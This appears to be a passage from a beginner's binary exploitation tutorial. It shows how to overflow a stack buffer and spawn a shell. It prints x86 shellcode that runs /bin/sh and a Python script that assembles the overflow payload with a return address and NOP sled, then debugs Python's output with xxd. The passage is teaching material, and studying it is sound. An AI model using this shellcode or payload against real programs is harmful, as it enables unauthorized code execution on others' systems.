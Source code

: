 ## Extra

### Return Me Shell!

Writing a shellcode for exit status is quite boring.

Why don't we pop a shell instead?

Since it's annoying to use `echo` to generate our shellcode, we will be using our handy scripting language... Python!

To pop a shell, we need a shellcode for it.
Thankfully, we don't need to make one from scratch (because assembly is pain y'know) thanks to Shell-Storm.

```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

This is probably at least 40 bytes long which does not fit inside the buffer's 8 byte size.

Save the shellcode in Python and add the other stuffs as well

```python
OFFSET      = b"\x41"
EIP         = b"\x18\xcd\xff\xff"
NOP         = b"\x90"
SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

exploit     = OFFSET * 12 + EIP + NOP*4 + SHELLCODE

print(exploit)
```

And that's it!

Except this would not work because of how Python's `print()` function works.
To prove this, we will compare echo's output against Python's output

```sh
$ echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x18\xcd\xff\xff\x90\x90\x90\x90\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" > eggshell
$ xxd eggshell
00000000: 4141 4141 4141 4141 4141 4141 18cd ffff  AAAAAAAAAAAA....
00000010: 9090 9090 31c0 31db b006 cd80 5368 2f74  ....1.1.....Sh/t
00000020: 7479 682f 6465 7689 e331 c966 b912 27b0  tyh/dev..1.f..'.
00000030: 05cd 8031 c050 682f 2f73 6868 2f62 696e  ...1.Ph//shh/bin
00000040: 89e3 5053 89e1 99b0 0bcd 80              ..PS.......

$ python exploit2.py > eggshell2 && xxd eggshell2
00000000: 6222 4141 4141 4141 4141 4141 4141 5c78  b"AAAAAAAAAAAA\x
00000010: 3138 5c78 6364 5c78 6666 5c78 6666 5c78  18\xcd\xff\xff\x
00000020: 3930 5c78 3930 5c78 3930 5c78 3930 315c  90\x90\x90\x901\
00000030: 7863 3031 5c78 6462 5c78 6230 5c78 3036  xc01\xdb\xb0\x06
00000040: 5c78 6364 5c78 3830 5368 2f74 7479 682f  \xcd\x80Sh/ttyh/
00000050: 6465 765c 7838 395c 7865 3331 5c78 6339  dev\x89\xe31\xc9
00000060: 665c 7862 395c 7831 3227 5c78 6230 5c78  f\xb9\x12'\xb0\x
00000070: 3035 5c78 6364 5c78 3830 315c 7863 3050  05\xcd\x801\xc0P
00000080: 682f 2f73 6868 2f62 696e 5c78 3839 5c78  h//shh/bin\x89\x
00000090: 6533 5053 5c78 3839 5c78 6531 5c78 3939  e3PS\x89\xe1\x99
000000a0: 5c78 6230 5c78 3062 5c78 6364 5c78 3830  \xb0\x0b\xcd\x80
000000b0: 220a                                     ".

$ sha256sum eggshell eggshell2
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
```